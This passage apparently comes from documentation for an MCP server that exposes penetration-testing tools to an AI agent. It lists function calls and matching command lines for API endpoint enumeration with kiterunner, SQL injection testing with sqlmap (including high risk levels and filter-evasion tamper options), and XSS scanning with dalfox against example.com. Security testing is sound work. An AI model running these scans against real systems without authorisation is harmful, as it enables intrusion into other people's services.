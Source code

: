 #### 3. API Endpoint Discovery
```python
# MCP Function Call
await enumerate_apis(
    target="https://example.com",
    threads=30,
    methods="GET,POST,PUT,DELETE",
    wordlist="api-endpoints.txt"
)

# Direct Command
kiterunner scan https://example.com -w api-endpoints.txt -t 30 --methods GET,POST,PUT,DELETE
```

---

## 💥 **Phase 3: Exploitation Testing**

#### 1. SQL Injection Testing
```python
# MCP Function Call - Basic SQLi test
await test_sql_injection(
    target="https://example.com/login",
    data="username=admin&password=test",
    method="POST",
    level=3,
    risk=2
)

# MCP Function Call - Advanced SQLi with tamper
await test_sql_injection(
    target="https://example.com/search?q=test",
    level=5,
    risk=3,
    technique="BEUST",
    tamper="space2comment,randomcase"
)

# Direct Commands
sqlmap -u "https://example.com/login" --data="username=admin&password=test" --level=3 --risk=2 --batch
sqlmap -u "https://example.com/search?q=test" --level=5 --risk=3 --technique=BEUST --tamper=space2comment,randomcase --batch
```

#### 2. XSS Vulnerability Testing
```python
# MCP Function Call
await scan_xss(
    target="https://example.com",
    file=False,
    threads=50,
    mining_dom=True,
    mining_dict=True
)

# Direct Command
dalfox url https://example.com -w 50 --mining-dom --mining-dict -o json
```
